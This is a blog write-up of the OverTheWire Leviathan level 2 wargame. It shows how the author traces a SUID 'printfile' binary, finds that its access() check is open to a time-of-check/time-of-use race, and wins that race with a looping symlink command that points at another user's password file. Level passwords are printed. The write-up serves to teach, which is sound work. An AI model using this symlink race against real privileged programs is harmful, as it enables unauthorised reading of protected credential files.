 +++
date = 2020-05-04T14:00:00Z
lastmod = 2020-05-04T14:00:00Z
author ="l1ge"
title = "OverTheWire: Leviathan 2 Write-Up"
subtitle = "Write-up for Leviathan level 2, the FUN way "
feature = ""

+++

There are plenty of write-ups out there for Leviathan's Level 2.  But none of them solved it the way I did: **the fun way!**
Let's first access the level

> ssh -p 2223 leviathan2@leviathan.labs.overthewire.org
>
> password: ougahZi8Ta

In the home folder there is an executable named `printfile`. Let's check its permissions

```bash
$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
```

It has the SUID bit (s), which means we can run it with the permissions of its owner leviathan3
Great! so let's try to print leviathan3 password 

```bash
$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

That would have been too easy. For some reason `printfile` doesn't allow us to access a file owned by leviathan3 despite the SUID bit. Let's investigate the binary with the command `ltrace`

```bash
$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                         = -1
puts("You cant have that file..."You cant have that file...
)                                  = 27
+++ exited (status 1) +++
```

I also tried `strace` to check the system calls

```bash
$ strace ./printfile /etc/leviathan_pass/leviathan3
execve("./printfile", ["./printfile", "/etc/leviathan_pass/leviathan3"], [/* 17 vars */]) = 0
strace: [ Process PID=32706 runs in 32 bit mode. ]
brk(NULL)                               = 0x804b000
fcntl64(0, F_GETFD)                     = 0
fcntl64(1, F_GETFD)                     = 0
fcntl64(2, F_GETFD)                     = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fd2000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=36357, ...}) = 0
mmap2(NULL, 36357, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fc9000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib32/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0\204\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1787812, ...}) = 0
mmap2(NULL, 1796604, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xf7e12000
mmap2(0xf7fc3000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b0000) = 0xf7fc3000
mmap2(0xf7fc6000, 10748, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xf7fc6000
close(3)                                = 0
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7e10000
set_thread_area({entry_number:-1, base_addr:0xf7e10700, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0 (entry_number:12)
mprotect(0xf7fc3000, 8192, PROT_READ)   = 0
mprotect(0x8049000, 4096, PROT_READ)    = 0
mprotect(0xf7ffc000, 4096, PROT_READ)   = 0
munmap(0xf7fc9000, 36357)               = 0
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 7), ...}) = 0
brk(NULL)                               = 0x804b000
brk(0x806c000)                          = 0x806c000
write(1, "You cant have that file...\n", 27You cant have that file...
) = 27
exit_group(1)                           = ?
+++ exited with 1 +++
```

To be honest, I don't understand what most of this means, but one line is pretty straightforward : 

```bash
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
```

There is an *access()* function that checks if I can access the file. Let's investigate how that function works.
From this [link](https://linux.die.net/man/2/access) I get a few interesting informations:

> The check is done using the calling process's real UID and GID, rather than the effective IDs as is done when actually attempting an operation (e.g., open(2)) on the file. This allows set-user-ID programs to easily determine the invoking user's authority. 

OK now I understand why, despite the SUID bit on the `printfile`, I can't access the password file.
I keep reading and stumble upon a serious lead :

> **Warning**: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

I like that! 
I decide to Google more and I discovered that this kind of vulnerabilities was called **TOCTOU** (Time-of-check to time-of-use) and was mostly abused using symlinks.

The idea is to modify the file between the moment it gets checked for permissions and the moment it gets opened. This is done by creating a symlink on the file, targeting the real file we wanna access. But this happens so fast, how can I do that ? 

That's when it becomes fun. I could have made a script but in the intro of the Leviathan's series, its said you don't need to write scripts to solve any of the level. 

Instead I did it... manually.

I used `tmux` to be able to launch two commands simultaneously. You can also use `screen`

```bash
$watch -n 0.1 "touch /tmp/l1ge/lev3; ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3; rm /tmp/l1ge/lev3"
```

This command runs every 0.1 seconds with`watch -n 0.1`

-  `touch /tmp/l1ge/lev3` - creates a file *lev3*
- `ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3`  - Creates a symlink on *lev3* targetting leviathan3's password file
-  `rm /tmp/l1ge/lev3` - Deletes *lev3*

To sum up, every 0.1 seconds it creates a file with permissions that can pass the *access()* function, symlinks it to the file we really wanna access, deletes it and start all over again.  

My plan is to run `./printfile` on my *lev3* file repeatedly until it magically sync up perfectly and the symlink happens right between *access()* reads the permissions and it gets passed to `cat` to print its content.

And to do that without a script, I'll use my fingers

I fire-up another `tmux` window and here I go, hitting UP ARROW and ENTER as fast I can to execute randomly the command on repeat.

```bash
$ ./printfile /tmp/l1ge/lev3
```

...until I hope the password magically appears. When you find yourself doing something so stupid on a CTF,  a strong inner voice tells you to give up and never touch a computer again.

BUT in less than 1mn the magic happened, that's fast enough to bypass my own pessimism.

![](/image/leviathan2.jpg)

Our password is  **Ahdiemoo1j**

There is of course a most reliable way to solve this level and you can check the other write-ups about it. 

Hope you enjoyed!

Cheers,
l1ge.

